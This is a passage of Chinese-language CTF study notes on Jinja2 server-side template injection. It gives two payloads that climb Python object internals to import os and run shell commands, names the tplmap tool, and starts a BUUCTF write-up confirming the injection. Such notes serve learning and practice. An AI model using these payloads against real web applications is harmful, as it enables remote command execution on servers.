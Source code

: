 从 `__class__` 开始:

```python
''.__class__.__base__.__subclasses__()[127].__init__.__globals__.__builtins__['__import__']('os').popen('ls').read()
```

从 `__self__` 开始:

```python
{{self.__init__.__globals__.__builtins__['__import__']('os').popen('ls').read()}} 
```

#### 自动化探测

用这个工具就够了: [Github - tplmap](https://github.com/epinna/tplmap)

### Write up 记录

#### SSTI 1

> 来源 BUUCTF

一进去就显示密码错误, 尝试一下 GET 传参发现姿势正确, 参数名就是 `password`, 接下来试试:

![2-1.png](2-1.png)

返回 str 类, 说明为 Jinja2 SSTI; 接下来往上找:

![2-2.png](2-2.png)

![2-3.png](2-3.png)
